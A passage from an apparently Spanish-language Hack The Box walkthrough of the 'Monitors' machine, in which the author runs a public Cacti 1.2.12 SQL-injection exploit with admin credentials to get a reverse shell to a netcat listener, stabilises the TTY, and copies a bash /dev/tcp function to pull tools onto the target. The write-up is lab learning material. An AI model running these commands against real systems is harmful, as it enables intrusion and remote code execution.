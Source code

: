 * [**Cacti 1.2.12** - 'filter' SQL Injection / Remote Code Execution](https://www.exploit-db.com/exploits/49810).

Y viendo su contenido nos muestra que obtendremos una Reverse Shell, así que nos ponemos en escucha (`nc -lvp 4433`) y ejecutamos el script:

```bash
❱ python3 cactiSQLIrce.py -t http://cacti-admin.monitors.htb -u admin -p 'BestAdministrator@2020!' --lhost 10.10.14.146 --lport 4433
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341bash_nc_wwwdataRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

VAMOOO, estamos dentro del sistema como el usuario **www-data** (:

Hacemos tratamiento de la TTY y seguimos.

```bash
$ script /dev/null -c bash
www-data@monitors:/usr/share/cacti/cacti$ [CTRL + Z]
```

```bash
❱ stty raw -echo; fg
reset
xterm
```

```bash
www-data@monitors:/usr/share/cacti/cacti$ export TERM=xterm
www-data@monitors:/usr/share/cacti/cacti$ export SHELL=bash
# Abre una terminal y ejecuta stty -a, ahí obtienes estos valores:
www-data@monitors:/usr/share/cacti/cacti$ stty rows 43 columns 192 
```

...

# Vamos de <u>www-data</u> -> <u>marcus</u> [#](#www-data-marcus-backup) {#www-data-marcus-backup}

Buscando y buscando no llegamos a nada, intentando subir `pspy` para ver procesos internos o `linpeas.sh` para enumerar a profundidad, el sistema no nos deja, básicamente porque ni **curl** ni **wget** están instalados yyy **nc** me da errores al intentar subir los archivos por ahí...

Así que caí en este thread para subir archivos sin usar ningún de las tools anteriores, todo simplemente usando redirecciones y `/dev/tcp`:

* [Download a file using just **Bash** and nothing else (no **curl**, **wget**, **perl**, etc.)](https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et#answer-421318)

Copiamos la función:

```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

